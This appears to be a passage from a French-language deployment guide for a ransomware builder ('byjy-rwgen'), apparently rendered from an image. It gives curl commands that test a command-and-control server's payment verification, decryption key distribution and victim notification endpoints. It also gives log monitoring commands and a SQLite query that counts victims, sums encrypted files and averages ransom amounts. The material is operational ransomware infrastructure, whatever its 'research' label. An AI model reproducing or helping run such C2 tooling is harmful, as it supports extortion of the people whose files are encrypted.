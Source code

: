 ### **4.3 Test des APIs C&C**

```bash
# Tester la vérification de paiement
curl -X POST http://localhost/c2_server/api/verify_payment.php \
     -d "victim_id=[VICTIM_ID]"

# Tester la distribution de clé
curl -X POST http://localhost/c2_server/api/get_decryption_key.php \
     -d "victim_id=[VICTIM_ID]"

# Tester les notifications
curl -X POST http://localhost/c2_server/api/notify_decryption.php \
     -d "victim_id=[VICTIM_ID]&status=started&file_count=100"
```

## 📊 **Phase 5 : Monitoring et Analyse**

### **5.1 Surveillance des Logs**

```bash
# Logs principaux du système
tail -f /var/log/byjy-rwgen-deploy.log

# Logs des workers
tail -f /var/log/supervisor/byjy-worker-*.log

# Logs de monitoring des paiements
tail -f /var/log/supervisor/byjy-payment-monitor.log

# Logs Apache
tail -f /var/log/apache2/byjy-rwgen-access.log
tail -f /var/log/apache2/byjy-rwgen-error.log
```

### **5.2 Métriques de Performance**

```bash
# Vérifier l'état Redis
redis-cli info stats

# État de la base de données
sqlite3 /app/c2_server/research_c2.db "SELECT 
    COUNT(*) as total_victims,
    SUM(files_encrypted) as total_files,
    AVG(ransom_amount) as avg_ransom
FROM victims;"

# Performances système
htop
iotop
```
